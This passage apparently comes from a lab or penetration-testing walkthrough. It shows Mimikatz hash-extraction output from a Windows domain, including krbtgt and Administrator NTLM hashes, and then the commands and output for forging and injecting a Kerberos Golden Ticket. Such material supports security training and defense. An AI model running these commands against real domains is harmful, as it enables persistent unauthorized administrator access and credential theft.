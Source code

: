 **Sample Hash Extraction Output:**
```
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
```

**Key Information Extracted:**
- **Domain SID:** S-1-5-21-1987370270-658905905-1781884369
- **krbtgt NTLM Hash:** 1693c6cefafffc7af11ef34d1c788f47
- **Administrator Hash:** Available for additional attacks

### Golden Ticket Creation and Injection

**Ticket Preparation:**
```mimikatz
# Clear existing Kerberos tickets
kerberos::purge
```

**Golden Ticket Generation:**
```mimikatz
# Create golden ticket with existing user account (post-July 2022 requirement)
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

**Golden Ticket Creation Output:**
```
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session
```
